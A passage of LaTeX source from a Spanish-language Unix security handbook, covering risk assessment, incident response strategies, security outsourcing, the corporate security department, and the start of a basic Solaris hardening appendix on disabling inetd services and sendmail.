desde un operador que derrama una taza de caf\'e sobre una terminal hasta un
usuario que tropieza con el cable de alimentaci\'on de un servidor y lo 
desconecta de la l\'{\i}nea el\'ectrica, pasando por temas como el borrado 
accidental de datos o los errores de programaci\'on; decir {\it `no lo hice a
prop\'osito'} no ayuda nada en estos casos. Por supuesto, tampoco tenemos que
reducirnos a los accesos no autorizados al sistema: un usuario de nuestras
m\'aquinas puede intentar conseguir privilegios que no le corresponden, una
persona externa a la organizaci\'on puede lanzar un ataque de negaci\'on de
servicio contra la misma sin necesidad de conocer ni siquiera un {\it login}
y una contrase\~na, etc.
\subsection{Medidas de protecci\'on}
Tras identificar todos los recursos que deseamos proteger, as\'{\i} como las
posibles vulnerabilidades y amenazas a que nos exponemos y los potenciales 
atacantes que pueden intentar violar nuestra seguridad, hemos de estudiar c\'omo
proteger nuestros sistemas, sin ofrecer a\'un implementaciones concretas para
protegerlos (esto ya no ser\'{\i}an pol\'{\i}ticas sino mecanismos). Esto 
implica en primer lugar cuantificar los da\~nos que cada posible vulnerabilidad
puede causar teniendo en cuenta las posibilidades de que una amenaza se pueda
convertir en realidad. Este c\'alculo puede realizarse partiendo de hechos
sucedidos con anterioridad en nuestra organizaci\'on, aunque por desgracia en
muchos lugares no se suelen registrar los incidentes acaecidos. En este caso, y
tambi\'en a la hora de evaluar los da\~nos sobre recursos intangibles, existen
diversas aproximaciones como el m\'etodo Delphi, que b\'asicamente consiste en
preguntar a una serie de especialistas de la organizaci\'on sobre el da\~no y 
las p\'erdidas que cierto problema puede causar; no obstante, la experiencia
del administrador en materias de seguridad suele tener aqu\'{\i} la \'ultima
palabra a la hora de evaluar los impactos de cada amenaza.\\
\\La clasificaci\'on de riesgos de cara a estudiar medidas de protecci\'on 
suele realizarse en base al nivel de importancia del da\~no causado y a la
probabilidad aproximada de que ese da\~no se convierta en realidad; se trata
principalmente de no gastar m\'as dinero en una implementaci\'on para proteger
un recurso de lo que vale dicho recurso o de lo que nos costar\'{\i}a 
recuperarnos
de un da\~no en \'el o de su p\'erdida total. Por ejemplo, podemos seguir un
an\'alisis similar en algunos aspectos al problema de la mochila: llamamos
$R_{i}$ al riesgo de perder un recurso {\it i} (a la probabilidad de que se 
produzca un ataque), y le asignamos un valor de 0 a 10 (valores m\'as altos
implican m\'as probabilidad); de la misma forma, definimos tambi\'en de 0 a 10
la importancia de cada recurso, $W_{i}$, siendo 10 la importancia m\'as alta. 
La evaluaci\'on del riesgo es entonces el producto de ambos valores, llamado
peso o riesgo evaluado de un recurso, $WR_{i}$, y medido en dinero perdido por
unidad de tiempo (generalmente, por a\~no):
\begin{center}
$WR_{i} = R_{i}\times W_{i}$
\end{center}
De esta forma podemos utilizar hojas de trabajo en las que, para cada recurso, 
se muestre su nombre y el n\'umero asignado, as\'{\i} como los tres valores 
anteriores. Evidentemente, los recursos que presenten un riesgo evaluado mayor
ser\'an los que m\'as medidas de protecci\'on deben poseer, ya que esto 
significa que es probable que sean atacados, y que adem\'as el ataque puede
causar p\'erdidas importantes. Es especialmente importante un grupo de 
riesgos denominados {\it inaceptables}, aquellos cuyo peso supera un cierto
umbral; se trata de problemas que no nos podemos permitir en nuestros sistemas,
por lo que su prevenci\'on es crucial para que todo funcione correctamente.\\
\\Una vez que conocemos el riesgo evaluado de cada recurso es necesario 
efectuar lo que se llama el an\'alisis de costes y beneficios. B\'asicamente 
consiste en comparar el coste asociado a cada problema (calculado anteriormente,
$WR_{i}$) con el coste de prevenir dicho problema. El c\'alculo de este \'ultimo
no suele ser complejo si conocemos las posibles medidas de prevenci\'on que
tenemos a nuestra disposici\'on: por ejemplo, para saber lo que nos cuesta
prevenir los efectos de un incendio en la sala de operaciones, no tenemos m\'as
que consultar los precios de sistemas de extinci\'on de fuego, o para saber lo
que nos cuesta proteger nuestra red s\'olo hemos de ver los precios de productos
como {\it routers} que bloqueen paquetes o cortafuegos completos. No s\'olo 
hemos de tener en cuenta el coste de cierta protecci\'on, sino tambi\'en lo que
nos puede suponer su implementaci\'on y su mantenimiento; en muchos casos 
existen soluciones gratuitas para prevenir ciertas amenazas, pero estas 
soluciones tienen un coste asociado relativo a la dificultad de hacerlas
funcionar correctamente de una forma cont\'{\i}nua en el tiempo, por ejemplo 
dedicando a un empleado a su implementaci\'on y mantenimiento.\\
\\Cuando ya hemos realizado este an\'alisis no tenemos m\'as que presentar
nuestras cuentas a los responsables de la organizaci\'on (o adecuarlas al
presupuesto que un departamento destina a materias de seguridad), siempre
teniendo en cuenta que el gasto de proteger un recurso ante una amenaza ha de 
ser inferior al gasto que se producir\'{\i}a si la amenaza se convirtiera en
realidad. Hemos de tener siempre presente que los riesgos se pueden minimizar,
pero {\bf nunca} eliminarlos completamente, por lo que ser\'a recomendable
planificar no s\'olo la prevenci\'on ante de un problema sino tambi\'en la
recuperaci\'on si el mismo se produce; se suele hablar de medidas {\bf 
proactivas} (aquellas que se toman para prevenir un problema) y medidas {\bf 
reactivas} (aquellas que se toman cuando el da\~no se produce, para minimizar 
sus efectos).
\section{Estrategias de respuesta}
>Qu\'e hacer cuando nuestra pol\'{\i}tica de seguridad ha sido violada? La 
respuesta a esta pregunta depende completamente del tipo de violaci\'on que se
haya producido, de su gravedad, de qui\'en la haya provocado, de su 
intenci\'on\ldots Si se trata de accidentes o de problemas poco importantes
suele ser suficiente con una reprimenda verbal o una advertencia; si ha sido
un hecho provocado, quiz\'as es conveniente emprender acciones algo m\'as 
convincentes, como la clausura de las cuentas de forma temporal o peque\~nas
sanciones administrativas. En el caso de problemas graves que hayan sido
intencionados interesar\'a emprender acciones m\'as duras, como cargos legales
o sanciones administrativas firmes (por ejemplo, la expulsi\'on de una 
universidad).\\
\\Una gran limitaci\'on que nos va a afectar mucho es la situaci\'on de la 
persona o personas causantes de la violaci\'on con respecto a la organizaci\'on
que la ha sufrido. En estos casos se suele diferenciar entre usuarios internos
o locales, que son aquellos pertenecientes a la propia organizaci\'on, y
externos, los que no est\'an relacionados directamente con la misma; las 
diferencias entre ellos son los l\'{\i}mites de red, los administrativos, los
legales o los pol\'{\i}ticos. Evidentemente es mucho m\'as f\'acil buscar
responsabilidades ante una violaci\'on de la seguridad entre los usuarios
internos, ya sea contra la propia organizaci\'on o contra otra, pero utilizando
los recursos de la nuestra; cuando estos casos se dan en redes de I+D, 
generalmente ni siquiera es necesario llevar el caso ante la justicia, basta
con la aplicaci\'on de ciertas normas sobre el usuario problem\'atico (desde
una sanci\'on hasta la expulsi\'on o despido de la organizaci\'on).\\
\\Existen dos estrategias de respuesta ante un incidente de seguridad 
(\cite{kn:siy95}):
\begin{itemize}
\item Proteger y proceder.
\item Perseguir y procesar.
\end{itemize}
La primera de estas estrategias, proteger y proceder, se suele aplicar cuando
la organizaci\'on es muy vulnerable o el nivel de los atacantes es elevado; la
filosof\'{\i}a es proteger de manera inmediata la red y los sistemas y restaurar
su estado normal, de forma que los usuarios puedan seguir trabajando 
normalmente. Seguramente ser\'a necesario interferir de forma activa las 
acciones del intruso para evitar m\'as accesos, y analizar el da\~no causado. La
principal desventaja de esta estrategia es que el atacante se da cuenta 
r\'apidamente de que ha sido descubierto, y puede emprender acciones para ser
identificado, lo que incluso conduce al borrado de {\it logs} o de sistemas
de ficheros completos; incluso puede cambiar su estrategia de ataque a un 
nuevo m\'etodo, y seguir comprometiendo al sistema. Sin embargo, esta estrategia
tambi\'en presenta una parte positiva: el bajo nivel de conocimientos de los 
atacantes en sistemas habituales hace que en muchas ocasiones se limiten a 
abandonar su ataque y dedicarse a probar suerte con otros sistemas menos 
protegidos en otras organizaciones.\\
\\La segunda estrategia de respuesta, perseguir y procesar, adopta la 
filosof\'{\i}a de permitir al atacante proseguir sus actividades, pero de forma
controlada y observada por los administradores, de la forma m\'as discreta
posible. Con esto, se intentan guardar pruebas para ser utilizadas en la 
segunda parte de la estrategia, la de acusaci\'on y procesamiento del 
atacante (ya sea ante la justicia o ante los responsables de la organizaci\'on,
si se trata de usuarios internos). Evidentemente corremos el peligro de que
el intruso descubra su monitorizaci\'on y destruya completamente el sistema,
as\'{\i} como que nuestros resultados no se tengan en cuenta ante un tribunal
debido a las artima\~nas legales que algunos abogados aprovechan; la parte 
positiva de esta estrategia es, aparte de la recolecci\'on de pruebas, que
permite a los responsables conocer las actividades del atacante, qu\'e
vulnerabilidades de nuestra organizaci\'on ha aprovechado para atacarla, c\'omo
se comporta una vez dentro, etc. De esta forma podemos aprovechar el ataque
para reforzar los puntos d\'ebiles de nuestros sistemas.\\
\\A nadie se le escapan los enormes peligros que entra\~na el permitir a un
atacante proseguir con sus actividades dentro de las m\'aquinas; por muy 
controladas que est\'en, en cualquier momento casi nada puede evitar que la
persona se sienta vigilada, se ponga nerviosa y destruya completamente nuestros
datos. Una forma de monitorizar sus actividades sin comprometer excesivamente
nuestra integridad es mediante un proceso denominado {\it jailing} o 
encarcelamiento: la idea es construir un sistema que simule al real, pero donde
no se encuentren datos importantes, y que permita observar al atacante sin
poner en peligro los sistemas reales. Para ello se utiliza una m\'aquina,
denominada {\bf sistema de sacrificio}, que es donde el atacante realmente
trabaja, y un segundo sistema, denominado {\bf de observaci\'on}, conectado al
anterior y que permite analizar todo lo que esa persona est\'a llevando a cabo.
De esta forma conseguimos que el atacante piense que su intrusi\'on ha tenido
\'exito y continue con ella mientras lo monitorizamos y recopilamos pruebas
para presentar en una posible demanda o acusaci\'on. Si deseamos construir
una c\'arcel es necesario que dispongamos de unos conocimientos medios o 
elevados de programaci\'on de sistemas; utilidades como {\tt chroot()} nos
pueden ser de gran ayuda, as\'{\i} como {\it software} de simulaci\'on como 
{\it Deception Tookit (DTK)}, que simula el \'exito de un ataque ante el pirata 
que lo lanza, pero que realmente nos est\'a informa del intento de violaci\'on 
producido.\\
\\Sin importar la estrategia adoptada ante un ataque, siempre es recomendable
ponerse en contacto con entidades externas a nuestra organizaci\'on, incluyendo
por ejemplo fuerzas de seguridad (en Espa\~na, Guardia Civil o Polic\'{\i}a 
Nacional), gabinetes jur\'{\i}dicos o equipos de expertos en seguridad 
inform\'atica, como el CERT. En el caso de instituciones de I+D, en Espa\~na
existe IrisCERT ({\tt http://www.rediris.es/cert/}), el equipo de respuesta 
ante emergencias de seguridad de RedIRIS, la red universitaria espa\~nola.
\section{\it Outsourcing}
Cada vez es m\'as habitual que las empresas contraten los servicios de 
seguridad de una compa\~n\'{\i}a externa, especializada en la materia, y que
permita olvidarse -- relativamente, como veremos despu\'es -- al personal de 
esa empresa de los aspectos t\'ecnicos y organizativos de la seguridad, para 
poder centrarse as\'{\i} en su l\'{\i}nea de negocio correspondiente; esta
pol\'{\i}tica es lo que se conoce como {\it outsourcing} y se intenta traducir
por `externalizaci\'on', aplicado en nuestro
caso a la seguridad corporativa. A los que somos puramente t\'ecnicos muchas 
veces se nos olvida que la seguridad en s\'{\i} misma no es ning\'un fin, sino
una herramienta al servicio de los negocios, y por tanto nuestros esfuerzos han
de ir orientados a proteger el `patrimonio' (humano, tecnol\'ogico, 
econ\'omico\ldots) de quien contrata nuestros servicios: al director de una
gran firma probablemente le importe muy poco que hayamos implantado en sus
instalaciones el mejor cortafuegos del mercado junto a un fabuloso sistema 
distribuido de detecci\'on de intrusos si despu\'es un atacante puede entrar
con toda facilidad en la sala de m\'aquinas y robar varias cintas de {\it 
backup} con toda la informaci\'on cr\'{\i}tica de esa compa\~n\'{\i}a; y si esto
sucede, simplemente hemos hecho mal nuestro trabajo.\\
\\>Por qu\'e va a querer una empresa determinada que personas ajenas a la misma
gestionen su seguridad? Al fin y al cabo, estamos hablando de la protecci\'on
de muchos activos de la compa\~n\'{\i}a, y encomendar esa tarea tan cr\'{\i}tica
a un tercero, de quien en principio -- ni en final -- no tenemos porqu\'e 
confiar, no parece a primera vista una buena idea\ldots Existen diferentes
motivos para llegar a externalizar nuestra seguridad; por un lado, como hemos
comentado, un {\it outsourcing} permite a la empresa que lo contrata 
despreocuparse relativamente de su seguridad para centrarse en sus l\'{\i}neas
de negocio. Adem\'as, al contratar a personal especializado -- al menos en 
principio -- en la seguridad se consigue -- tambi\'en en principio -- un nivel
mayor de protecci\'on, tanto por el factor humano (el contratado ha de tener
gente con un alto nivel en diferentes materias de seguridad para poder ofrecer
correctamente sus servicios) como t\'ecnico (dispondr\'a tambi\'en de productos
y sistemas m\'as espec\'{\i}ficos, algo de lo que probablemente el contratante 
no puede disponer tan f\'acilmente). Te\'oricamente, estamos reduciendo riesgos
a la vez que reducimos costes, por lo que parece que nos encontramos ante la
panacea de la seguridad.\\
\\Desgraciadamente, el mundo real no es tan bonito como lo se puede escribir 
sobre un papel; el {\it outsourcing} presenta {\it a priori} graves 
inconvenientes, y quiz\'as el m\'as importante sea el que ya hemos adelantado:
dejar toda nuestra seguridad en manos de desconocidos, por muy buenas 
referencias que podamos tener de ellos. Muchas empresas dedicadas a ofrecer
servicios de gesti\'on externa de seguridad est\'an formadas por ex-piratas
(<incluso existen algunas de ellas que se jactan de esto!), lo cual no deja de
ser contradictorio: estamos dejando al cuidado de nuestro reba\~no a lobos, o
cuanto menos ex-lobos, algo que plantea, o debe plantear, ciertas 
cuestiones \'eticas. No voy a expresar de nuevo mi punto de vista (que no deja
de ser una mera opini\'on) acerca de los piratas, porque creo que ya ha quedado 
suficientemente claro en diferentes puntos de este documento, as\'{\i} que cada
cual act\'ue como su conciencia o sus directivos le indiquen. Por supuesto, 
tampoco quiero meter a todo este tipo de compa\~n\'{\i}as en un mismo saco, 
porque por l\'ogica habr\'a de todo, ni entrar ahora a discutir acerca de si
para saber defender un entorno hay que saber atacarlo, porque una cosa es saber
atacar (algo que se puede aprender en sistemas autorizados, o en nuestro
propio laboratorio, sin afectar a ning\'un tercero) y otra defender que s\'olo
un antiguo pirata es capaz de proteger correctamente un sistema.\\
\\Aparte de este `ligero' inconveniente del {\it outsourcing}, tenemos otros
tipos de problemas a tener tambi\'en en cuenta; uno de ellos es justamente el
l\'{\i}mite de uno de los beneficios de esta pol\'{\i}tica: ya que la 
externalizaci\'on permite a una empresa `despreocuparse' de su seguridad, 
podemos encontrar el caso -- nada extra\~no -- de un excesivo 
`despreocupamiento'. Actualmente, el abanico de servicios que ofrece cualquier
consultora de seguridad suele abarcar desde auditor\'{\i}as puntuales hasta
una delegaci\'on total del servicio pasando por todo tipo de soluciones
intermedias, y lo que justifica la elecci\'on de un
modelo u otro es un simple an\'alisis de riesgos: el riesgo de la soluci\'on
externalizada ha de ser menor que el nivel de riesgo existente si se gestiona
la seguridad de forma interna. En cualquier caso, al externalizar se suele
introducir una cierta p\'erdida de control directo sobre algunos recursos de la
compa\~n\'{\i}a, y cuando esa p\'erdida supera un umbral nos encontramos ante 
un grave problema; en {\bf ning\'un} caso es recomendable un desentendimiento
total de los servicios externalizados, y el contacto e intercambio de 
informaci\'on entre las dos organizaciones (la contratante y la contratada) han
de ser cont\'{\i}nuos y fluidos.\\
\\Cuanto m\'as alejada de las nuevas tecnolog\'{\i}as se encuentre la 
l\'{\i}nea de negocio de una determinada empresa, m\'as recomendable suele ser 
para la misma adoptar una soluci\'on de {\it outsourcing} (\cite{kn:vel02});
esto es evidente: una empresa frutera, independientemente de lo grande o 
peque\~na que sea, pero perteneciente a un \'area no relacionada con nuevas
tecnolog\'{\i}as, rara vez va a disponer de los mismos recursos humanos y 
t\'ecnicos para destinar exclusivamente a seguridad que una empresa de 
telecomunicaciones o inform\'atica. Es habitual -- y as\'{\i} debe ser -- que 
el nivel de externalizaci\'on sea mayor conforme la empresa contratante se
aleje del mundo de las nuevas tecnolog\'{\i}as, contemplando un amplio abanico
que abarca desde la gesti\'on de elementos concretos de protecci\'on (como un
{\it firewall} corporativo) o auditor\'{\i}as y {\it tests} de penetraci\'on 
puntuales hasta soluciones de externalizaci\'on total; en cualquier caso, es
necesario insistir de nuevo en el error de `despreocuparse' demasiado de la 
gesti\'on de nuestra seguridad: incluso a esa empresa frutera que acabamos de
comentar le interesar\'a, o al menos as\'{\i} deber\'{\i}a ser, recibir como
poco un informe mensual donde en unas pocas hojas, y sin entrar en aspectos
demasiado t\'ecnicos, se le mantenga al d\'{\i}a de cualquier aspecto relevante
que afecte a su seguridad.\\
\\>Qu\'e areas de nuestra seguridad conviene externalizar? Evidentemente, no
existe una respuesta universal a esta pregunta. Existen \'areas que por su
delicadez o criticidad no conviene casi nunca dejar en manos de terceros, como
es el caso de la realizaci\'on y verificaci\'on de {\it backups}: todos hemos
escuchado historias graciosas -- o terribles, seg\'un en que lado estemos -- 
relacionadas con errores en las copias de seguridad, como ejecutar la 
simulaci\'on de copia en lugar de una copia real para finalizar m\'as 
r\'apidamente el proceso de {\it backup}. No obstante, elementos importantes 
pero no cr\'{\i}ticos {\it a priori}, como los {\it tests} de penetraci\'on, de
visibilidad o las auditor\'{\i}as de vulnerabilidades, que habitualmente se
suelen externalizar, ya que incluso existen empresas de seguridad especializadas
en este tipo de acciones. Otro ejemplo de \'area a externalizar puede ser la
gesti\'on de los cortafuegos corporativos, trabajo que en demasiadas ocasiones
recae sobre el \'area de Seguridad propia y que como veremos en el pr\'oximo
punto no deber\'{\i}a ser as\'{\i}. En definitiva, no podemos dar un listado
donde se indiquen por orden las prioridades de externalizaci\'on, ya que es
algo que depende completamente de cada compa\~n\'{\i}a y entorno; ha de ser el
personal de la propia compa\~n\'{\i}a, asesorado por consultores de seguridad 
y por abogados (recordemos que la LOPD est\'a ah\'{\i}), quien decida qu\'e y
de qu\'e forma gestionar en {\it outsourcing}.
\section{El `\'Area de Seguridad'}
Casi cualquier mediana o peque\~na empresa posee actualmente lo que se viene a
llamar el `\'Area de Seguridad', formada pocas veces a partir de gente que haya
sido incorporada a la plantilla a tal efecto, y muchas a partir del reciclaje
de personal de otras \'areas de la corporaci\'on, t\'{\i}picamente las de 
Sistemas o Comunicaciones. En este punto vamos a hablar brevemente de este
\'area y su posici\'on corporativa, haciendo referencia tanto a sus funciones
te\'oricas como a sus problemas de definici\'on dentro del organigrama de la
organizaci\'on.\\
\\>Cu\'al es la funci\'on de este \'area? Realmente, mientras que todo el 
personal sabe cual es el cometido de la gente de Desarrollo, Sistemas o Bases
de Datos, el del \'area de Seguridad no suele estar definido de una forma 
clara: al tratarse en muchos casos, como acabamos de comentar, de personal 
`reciclado' de otras \'areas, se trabaja mucho en aspectos de seguridad --
para eso se suele crear, evidentemente --, pero tambi\'en se acaba realizando
funciones que corresponden a otras \'areas; esto es 
especialmente preocupante con respecto a Sistemas, ya que en muchas ocasiones
el personal de Seguridad trabaja `demasiado cerca' de esta otra \'area, llegando
a realizar tareas puramente relacionadas con Sistemas, como la gesti\'on de los
cortafuegos (no nos referimos a la definici\'on de pol\'{\i}ticas ni nada 
parecido, sino \'unicamente al manejo del mismo). Y si a esto le a\~nadimos que
a muchos de los que nos dedicamos a este mundo nos gusta tambi\'en todo lo 
relacionado con sistemas -- sobre todo si son Unix :-) --, pues llegamos a una
situaci\'on en la que nadie pone pegas a hacer un trabajo que no le corresponde,
con lo cual se vicia el \'area de Seguridad centr\'andose \'unicamente en
aspectos t\'ecnicos pero descuidando otros que son igual o m\'as importantes.
Por si esto fuera poco, existe una serie de funciones en conflicto a la hora
de gestionar la seguridad corporativa, t\'{\i}picamente la del administrador
de seguridad frente a la del administrador de sistemas, de bases de datos, o
incluso frente al operador de sistemas y los desarrolladores.\\
\\Te\'oricamente, el \'area de Seguridad ha de estar correctamente definida y
ser independiente de 
cualquier otra de la compa\~n\'{\i}a, y por supuesto de la direcci\'on de la
misma: aunque en la pr\'actica sea casi imposible conseguirlo, no podemos 
definir una pol\'{\i}tica de obligado cumplimiento para todos los trabajadores
excepto para nuestros jefes. Evidentemente, ha de contar con el apoyo total de
la direcci\'on de la entidad, que debe estudiar, aprobar y respaldar 
permanentemente, y de forma anticipada, las decisiones de seguridad que el 
\'area decida llevar a cabo (siempre dentro de unos l\'{\i}mites, est\'a
claro\ldots).\\
\\El trabajo del \'area debe ser m\'as normativo que t\'ecnico: no podemos 
dedicar
al personal de la misma a cambiar contrase\~nas de usuarios o a gestionar
(entendido por `manejar') los cortafuegos corporativos, sino que el \'area de
Seguridad debe definir pol\'{\i}ticas e implantar mecanismos que obliguen a su
cumplimiento, o cuanto menos que avisen a quien corresponda en caso de que una
norma no se cumpla. T\'ecnicamente esto no es siempre posible, ya que ni todos
los sistemas ni todas las aplicaciones utilizadas tienen porqu\'e ofrecer 
mecanismos que nos ayuden en nuestra seguridad, pero cuando lo sea es funci\'on 
del \'area bien
su implantaci\'on o bien su auditor\'{\i}a (si es implantado por otro \'area).
Si una determinada aplicaci\'on no soporta las exigencias definidas en la
pol\'{\i}tica de seguridad, pero a\'un as\'{\i} es imprescindible su uso, el
\'area de Seguridad debe recordar que el cumplimiento de la normativa es 
igualmente obligatorio; al oir esto, mucha gente puede poner el grito en el 
cielo: en realidad, si el programa no cumple las especificaciones del \'area de
Seguridad, lo l\'ogico ser\'{\i}a prohibir su uso, pero funcionalmente esto no 
es siempre (realmente, casi nunca) posible: no tenemos m\'as que pensar en una 
aplicaci\'on corporativa que venga gestionando desde hace a\~nos las
incidencias de la organizaci\'on, y que evidentemente la direcci\'on no va a 
sustituir por otra `s\'olo' por que el \'area de Seguridad lo indique. Si 
nuestra pol\'{\i}tica marca que la longitud de clave m\'{\i}nima es
de seis caracteres, pero esta aplicaci\'on -- recordemos, vital para el buen
funcionamiento de la organizaci\'on -- acepta contrase\~nas de cuatro, el 
usuario {\bf no debe} poner estas claves tan cortas por mucho que la 
aplicaci\'on las acepte; si lo hace
est\'a violando la pol\'{\i}tica de seguridad definida, y el hecho de que el 
programa le deje hacerlo no es ninguna excusa. La pol\'{\i}tica es en este 
sentido algo similar al c\'odigo de circulaci\'on: no debemos sobrepasar los 
l\'{\i}mites de velocidad, aunque las caracter\'{\i}ticas mec\'anicas de 
nuestro coche nos permitan hacerlo y aunque no siempre tengamos un policia 
detr\'as que nos est\'e vigilando.\\
\\Aparte de la definici\'on de pol\'{\i}ticas y la implantaci\'on (o al menos la
auditor\'{\i}a) de 
mecanismos, es tarea del \'area de Seguridad la realizaci\'on de an\'alisis de
riesgos; aunque el primero sea con diferencia el m\'as costoso, una vez hecho
este el resto no suele implicar mucha dificultad. Por supuesto, todo esto ha de
ser cont\'{\i}nuo en el tiempo -- para entender porqu\'e, no tenemos m\'as que
fijarnos en lo r\'apido que cambia cualquier aspecto relacionado con las 
nuevas tecnolog\'{\i}as -- y permanente realimentado, de forma que la 
pol\'{\i}tica de seguridad puede modificar el an\'alisis de riesgos y 
viceversa. Asociados a los riesgos se definen planes de contingencia para
recuperar el servicio en caso de que se materialice un problema determinado;
esta documentaci\'on ha de ser perfectamente conocida por todo el personal al
que involucra, y debe contemplar desde los riesgos m\'as bajos hasta los de
nivel m\'as elevado o incluso las cat\'astrofes: >qu\'e pasar\'{\i}a si 
ma\~nana nuestro CPD se incendia o el edificio se derrumba?, >cu\'anto 
tardar\'{\i}amos en recuperar el servicio?, >sabr\'{\i}a cada persona qu\'e 
hacer en este caso?\ldots 
 
\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Apendices
% Resumen para admins, direcciones, organizaciones, glosario
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\appendix
\part{Ap\'endices}

\cleardoublepage
%\documentclass{article}
%\oddsidemargin 0in
%\evensidemargin 0in
%\textheight 685pt
%\textwidth 430pt
%\topmargin 0in 
%\headsep 9pt
%\parindent 9pt
%\makeindex
%\begin{document}
%\title{Mecanismos b\'asicos de seguridad para administradores de m\'aquinas 
%Unix}
%\author{Antonio Villal\'on Huerta {\tt $<$toni@aiind.upv.es$>$}}
%\date{Noviembre, 1999}
%\maketitle
\chapter{Seguridad b\'asica para administradores}
\section{Introducci\'on}
Lamentablemente, muchos administradores de equipos Unix no disponen de los
conocimientos, del tiempo, o simplemente del inter\'es necesario para 
conseguir sistemas m\'{\i}nimamente fiables. A ra\'{\i}z de esto, las 
m\'aquinas Unix se convierten en una puerta abierta a cualquier ataque, poniendo
en peligro no s\'olo la integridad del equipo, sino de toda su subred y a la 
larga de toda Internet.\\
\\Aunque esta situaci\'on se da en cualquier tipo de organizaci\'on, es en las
dedicadas a I+D donde se encuentran los casos m\'as extremos; se trata de redes 
y equipos Unix muy abiertos y con un elevado n\'umero de usuarios (incluidos 
externos al per\'{\i}metro f\'{\i}sico de la organizaci\'on) que precisan de 
una gran disponibilidad de los datos, primando este aspecto de la informaci\'on 
ante otros como la integridad o la privacidad. Esto convierte a los sistemas 
Unix de centros de I+D, especialmente de universidades, en un objetivo 
demasiado f\'acil incluso para los piratas menos experimentados.\\
\\Con el objetivo de subsanar esta situaci\'on, aqu\'{\i} se van a intentar 
marcar unas pautas para conseguir un nivel {\bf m\'{\i}nimo} de fiabilidad en 
los equipos Unix. No se va a entrar en detalles muy t\'ecnicos o en desarrollos 
te\'oricos sobre seguridad que muy pocos van a leer (para eso est\'a el resto
de este proyecto), sino que la idea es 
\'unicamente explicar los pasos b\'asicos para que incluso los administradores 
menos preocupados por la seguridad puedan aplicarlos en sus sistemas. A modo de
ilustraci\'on, hay peque\~nos ejemplos que han sido realizados sobre una 
plataforma Solaris 7 (SunOS 5.7); en otros clones de Unix quiz\'as sea 
necesario modificar las opciones de alg\'un comando o la localizaci\'on de 
ciertos ficheros.\\
\\Hay que recalcar que se trata de mecanismos {\bf b\'asicos} de seguridad, que
pueden evitar la acci\'on de algunos piratas casuales (si nuestra m\'aquina
ofrece una m\'{\i}nima protecci\'on abandonar\'an el ataque para dedicarse a
equipos menos protegidos) pero no de un atacante con cierta experiencia.
Lo ideal ser\'{\i}a que las pautas marcadas aqu\'{\i} se complementaran con 
todas las medidas de seguridad posibles, y que entre los libros habituales de 
un administrador se encontraran t\'{\i}tulos sobre seguridad en Unix; uno 
especialmente recomendado es {\it Practical Unix \& Internet Security}, de
Simson Garfinkel y Gene Spafford (Ed. O\'{}Reilly and Associates, 1996). 
Tambi\'en es muy recomendable que la persona encargada de la seguridad de cada
equipo permanezca atenta a los nuevos problemas que cada d\'{\i}a surgen; una
buena forma de conseguirlo es mediante listas de correo como {\sc bugtraq}.
\section{Prevenci\'on}
Los mecanismos de prevenci\'on han de ser los m\'as importantes para cualquier
administrador, ya que obviamente es mucho mejor evitar un ataque que detectar
ese mismo problema o tener que recuperar al sistema tras detectarlo.
\begin{itemize}
\item Cierre de servicios ofrecidos por {\tt inetd}\\
Cada servicio ofrecido en nuestro sistema se convierte en una potencial puerta
de acceso al mismo, por lo que hemos de minimizar su n\'umero: se recomienda 
cerrar cualquier servicio que no se vaya a utilizar, y todos aquellos de los 
que no conozcamos su utilidad (si m\'as tarde son necesarios, los podemos 
volver a abrir).\\ 
Para cerrar un servicio ofrecido desde {\tt inetd}, en el fichero {\tt 
/etc/inetd.conf} debemos comentar la l\'{\i}nea correspondiente a ese servicio,
de forma que una entrada como 
\tt
\begin{quote}
\begin{verbatim}
telnet  stream  tcp     nowait  root    /usr/sbin/in.telnetd
\end{verbatim}
\end{quote}
\rm
se convierta en una como 
\tt
\begin{quote}
\begin{verbatim}
#telnet  stream  tcp     nowait  root    /usr/sbin/in.telnetd
\end{verbatim}
\end{quote}
\rm
Tras efectuar esta operaci\'on, debemos reiniciar el demonio {\tt inetd} para
que relea su configuraci\'on; esto lo conseguimos, por ejemplo, con la orden
\tt
\begin{quote}
\begin{verbatim}
anita:/# pkill -HUP inetd
\end{verbatim}
\end{quote}
\rm
o, si no disponemos de un comando para enviar se\~nales a procesos a partir de
su nombre, con la orden
\tt
\begin{quote}
\begin{verbatim}
anita:/# kill -HUP `ps -ef|grep -w inetd|awk '{print $2}'`
\end{verbatim}
\end{quote}
\rm
\item Cierre de servicios ofrecidos en el arranque de m\'aquina\\
Existen una serie de demonios que ofrecen ciertos servicios, como {\tt 
sendmail}, que no se procesan a trav\'es de {\tt inetd} sino que se lanzan
como procesos independientes al arrancar la m\'aquina. Para detener este tipo
de demonios hemos de comentar las l\'{\i}neas de nuestros ficheros de arranque
encargadas de lanzarlos (generalmente en directorios como {\tt /etc/rc?.d/} o
{\tt /etc/rc.d/}): de esta forma conseguimos que la pr\'oxima vez que el sistema
se inicie, los demonios no se ejecuten. Aparte de esto, hemos de detener los
demonios en la sesi\'on actual, ya que en estos momentos seguramente est\'an
funcionando; para ello les enviamos la se\~nal {\sc sigkill} mediante el 
comando {\tt kill}.\\
Por ejemplo, en el caso de Solaris, {\tt sendmail} se lanza desde el archivo\\
{\tt /etc/rc2.d/S88sendmail}; en este fichero tendremos unas l\'{\i}neas 
similares a estas:
\tt
\begin{quote}
\begin{verbatim}
if [ -f /usr/lib/sendmail -a -f /etc/mail/sendmail.cf ]; then
   if [ ! -d /var/spool/mqueue ]; then
      /usr/bin/mkdir -m 0750 /var/spool/mqueue
      /usr/bin/chown root:bin /var/spool/mqueue
   fi
   /usr/lib/sendmail -bd -q15m &
fi
\end{verbatim}
\end{quote}
\rm
Podemos renombrar este archivo como {\tt disabled.S88sendmail} o comentar estas
l\'{\i}neas de la forma siguiente:
\tt
\begin{quote}
\begin{verbatim}
#if [ -f /usr/lib/sendmail -a -f /etc/mail/sendmail.cf ]; then
#   if [ ! -d /var/spool/mqueue ]; then
#      /usr/bin/mkdir -m 0750 /var/spool/mqueue
#      /usr/bin/chown root:bin /var/spool/mqueue
#   fi
#   /usr/lib/sendmail -bd -q15m &
#fi
\end{verbatim}
\end{quote}
\rm
Y a continuaci\'on eliminaremos el proceso {\tt sendmail} envi\'andole la 
se\~nal {\sc sigkill}:
\tt
\begin{quote}
\begin{verbatim}
anita:/# ps -ef |grep sendmail
